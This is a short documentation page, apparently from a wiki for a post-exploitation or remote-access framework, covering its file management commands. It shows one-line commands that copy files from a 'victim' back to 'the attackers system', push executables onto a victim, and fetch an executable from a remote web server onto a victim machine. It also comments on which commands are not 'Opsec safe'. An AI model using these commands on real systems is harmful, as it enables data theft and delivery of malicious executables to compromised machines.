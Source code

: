 # File Management

[[images/file-management-help.PNG]]

### Download-File

Simply enter the path and name of the file to download, (copy back to the attackers system).

`Download-File -Source 'C:\Temp\Run Me.exe'`

### Upload-File

Opposite of the above command

`Upload-File -Source 'C:\Temp\Run.exe' -Destination 'C:\Temp\Test.exe'`

This is not considered the be Opsec safe for obvious reasons.

### Web-Upload-File

Here we have the option to upload a file to a victim system but this time we allow for the file to be copied from a remote web server. Again this command is not considered Opsec safe.

`Web-Upload-File -From 'http://www.example.com/App.exe' -To 'C:\Temp\App.exe'`
